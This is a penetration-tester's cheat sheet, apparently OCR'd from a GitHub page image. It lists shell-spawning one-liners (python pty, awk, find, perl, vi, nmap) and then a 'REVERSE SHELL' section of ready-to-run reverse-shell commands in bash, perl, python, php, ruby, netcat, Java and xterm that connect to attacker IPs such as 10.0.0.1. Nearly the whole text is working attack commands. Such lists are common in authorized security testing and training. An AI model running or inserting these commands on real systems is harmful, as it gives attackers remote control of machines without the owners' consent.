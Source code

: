 

python -c 'import pty; pty.spawn("/bin/bash")'



echo

echo os.system('/bin/bash')

sh shell

/bin/sh -i

awk

awk 'BEGIN {system("/bin/bash")}'

find

find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' \;

perl

perl -e 'exec "/bin/bash";'

User perl to connection back to attacker machine with a shell

perl -e 'use Socket;$i="192.168.1.140";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

    ruby: exec "/bin/sh"

    lua: os.execute('/bin/sh')

    (From within IRB)

    exec "/bin/sh"

    (From within vi)

    :!bash

    (From within vi)

    :set shell=/bin/bash:shell

    (From within nmap)

    !sh






====

### REVERSE SHELL




Bash

Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

PERL

Here’s a shorter, feature-free version of the perl-reverse-shell:

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

There’s also an alternative PERL revere shell here.
Python

This was tested under Linux / Python 2.7:

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

If you want a .php file to upload, see the more featureful and robust php-reverse-shell.
Ruby

ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

nc -e /bin/sh 10.0.0.1 1234

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

Java

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

[Untested submission from anonymous reader]
xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

xterm -display 10.0.0.1:1

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

Xnest :1

You’ll need to authorise the target to connect to you (command also run on your host):

xhost +targetip
